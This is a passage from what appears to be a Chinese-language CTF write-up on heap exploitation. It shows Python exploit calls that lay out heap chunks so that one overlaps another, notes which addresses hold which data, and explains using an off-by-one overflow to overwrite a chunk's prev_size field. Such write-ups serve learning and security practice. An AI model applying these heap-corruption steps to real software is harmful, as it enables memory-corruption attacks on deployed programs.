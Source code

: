 这是正常分配的时候

如果原本的D去覆盖C，如下：(不知道为什么要这样，最开始以为是手误打错了，但是后来发现并不是手误！非常巧妙)

```python
DEL("th3fl4g")  #delet th3fl4g

PUT("A"*0x8, 0x80, p8(1)*0x80)
PUT("B"*0x8, 0x18, p8(2)*0x18)
PUT("C"*0x8, 0x60, p8(3)*0x60)
PUT("C"*0x8, 0xf0, p8(4)*0xf0)
```



并且此时bins的结构如下：

![18](/chunk_offbyone/18.png)

```python
0x1d0 原本是C的data
0x240 原本是D的struct
0x280 原本是D的key，但是现在被清零了
```



现在，0x582a0存储的是C的data，通过off_by_one溢出覆盖0x582a0的pre_size位。

覆盖前是这样

![19](/chunk_offbyone/19.png)
